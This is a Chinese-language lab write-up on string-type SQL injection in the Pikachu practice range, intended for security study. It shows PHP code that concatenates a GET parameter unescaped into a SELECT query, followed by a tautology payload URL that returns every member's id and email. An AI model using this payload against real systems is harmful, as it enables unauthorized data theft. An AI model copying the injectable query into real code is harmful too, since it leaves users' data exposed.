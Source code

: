 **服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型,需要考虑闭合
    $query="select id,email from member where username='$name'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**

构造 payload

`http://<IP address!!!>/pikachu/vul/sqli/sqli_str.php?name=1' or '1' ='1&submit=%E6%9F%A5%E8%AF%A2`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/28.png)
